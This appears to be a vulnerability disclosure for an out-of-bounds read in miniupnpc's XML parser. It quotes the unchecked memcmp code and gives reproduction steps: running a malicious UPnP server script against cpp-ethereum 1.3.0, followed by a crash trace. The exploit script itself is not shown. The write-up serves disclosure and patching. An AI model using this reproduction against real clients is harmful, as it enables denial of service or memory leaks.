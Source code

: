 Description:

When miniupnpc parses a xml, it fails to check the end of the xml buffer, which could lead to read out of bounds of the buffer.
This can cause DOS or information leak.

In function

void parseelt(struct xmlparser * p):


					if(memcmp(p->xml, "<![CDATA[", 9) == 0)		// (1)  Failed to do bound check prior to "memcmp" here
					{
						/* CDATA handling */
						p->xml += 9;
						data = p->xml;
						i = 0;
						while(memcmp(p->xml, "]]>", 3) != 0)


To test:

The poc was tested on windows 10 64-bits.

First start the malicious upnp server:

python poc.py --listen 127.0.0.1:65000 --target havoc


1. For cpp-ethereum 1.3.0


1.1 Enable page heap for cpp-ethereum:

The page heap helps to crash the client immediately when oob read occurs.

1.1.1 Install Windbg x64

1.1.2 Execute the following command to enable page heap for eth.exe:

"c:\Program Files\Debugging Tools for Windows (x64)\gflags.exe" /i eth.exe +hpa


1.2 Start eth to observe the crash:

C:\Users\test>C:\cpp-ethereum\cpp-ethereum\build64\eth\Release\eth.exe

Crash Info:

(c60.41b4): Access violation - code c0000005 (!!! second chance !!!)
VCRUNTIME140!memcmp+0x90:
00007ffa`6764c320 488b01          mov     rax,qword ptr [rcx] ds:000002aa`02afb000=????????????????
0:018> k
Child-SP          RetAddr           Call Site
000000f8`56ffeea8 00007ff6`65d9af8f VCRUNTIME140!memcmp+0x90 [f:\dd\vctools\crt\vcruntime\src\string\amd64\memcmp.asm @ 150]
000000f8`56ffeeb0 00007ff6`65d9abe3 eth!parsexml+0x3ff
000000f8`56ffef20 00007ff6`65d93b09 eth!parsexml+0x53
000000f8`56ffef50 00007ff6`65c15d46 eth!parserootdesc+0x89
000000f8`56ffeff0 00007ff6`65bf7378 eth!dev::p2p::UPnP::UPnP+0x236 [c:\cpp-ethereum\cpp-ethereum\libp2p\upnp.cpp @ 79]
000000f8`56fff300 00007ff6`65c0722c eth!dev::p2p::Network::traverseNAT+0x138 [c:\cpp-ethereum\cpp-ethereum\libp2p\network.cpp @ 183]
000000f8`56fff470 00007ff6`65c12a18 eth!dev::p2p::Host::determinePublic+0x71c [c:\cpp-ethereum\cpp-ethereum\libp2p\host.cpp @ 407]
000000f8`56fff8b0 00007ff6`65b87596 eth!dev::p2p::Host::startedWorking+0x208 [c:\cpp-ethereum\cpp-ethereum\libp2p\host.cpp @ 751]
000000f8`56fffa20 00007ff6`65b87917 eth!dev::validateFieldNames+0x5f6
000000f8`56fffc50 00007ff6`65aa37e9 eth!dev::validateFieldNames+0x977
000000f8`56fffc90 00007ffa`69d7dc05 eth!std::_Pad::_Call_func+0x9
000000f8`56fffcc0 00007ffa`6b921fe4 ucrtbase!thread_start<unsigned int (__cdecl*)(void * __ptr64)>+0x35
000000f8`56fffcf0 00007ffa`6d7bf061 KERNEL32!BaseThreadInitThunk+0x14
000000f8`56fffd20 00000000`00000000 ntdll!RtlUserThreadStart+0x21




Special Thanks:

I'd like to thank to "tintinweb" for his excellent work on CVE-2017-8798:


https://github.com/tintinweb/pub/tree/master/pocs/cve-2017-8798


I heavily reused his poc code in this poc